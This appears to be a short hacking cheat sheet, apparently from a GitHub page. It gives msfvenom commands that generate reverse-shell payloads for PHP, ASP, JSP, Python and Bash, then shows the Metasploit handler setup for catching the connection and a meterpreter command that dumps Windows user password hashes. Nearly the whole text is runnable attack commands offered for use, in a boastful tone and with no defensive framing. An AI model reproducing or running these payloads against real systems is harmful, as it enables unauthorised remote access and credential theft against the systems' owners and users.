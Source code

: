 

To create PHP Meterpreter Reverse TCP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > hackershell.php

cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```

To create ASP Meterpreter Reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

To create JSP Java Meterpreter Reverse TCP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```



To create Python Reverse Shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

To create Bash Unix Reverse Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```


**To use them in target system first upload a payload based on target interface and start multi/handler in your msfconsole**


'''
# msfconsole

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD <Payload name>
msf5 exploit(multi/handler) > Set RHOST <Remote IP>
msf5 exploit(multi/handler) > set LHOST <Local IP>
msf5 exploit(multi/handler) > set LPORT <Local Port>
msf5 exploit(multi/handler) > Run

  ```
  
Boom you will get meterpreter shell easily

After getting meterpreter shell run 'help' command it will show what you can do in target system

```
meterpreter > help
```

To list all run commands in target system execute 'run tab+tab' and enter it will show all run commands.

To dump all target system user hashes use

```
meterpreter > run post/windows/gather/hashdump 
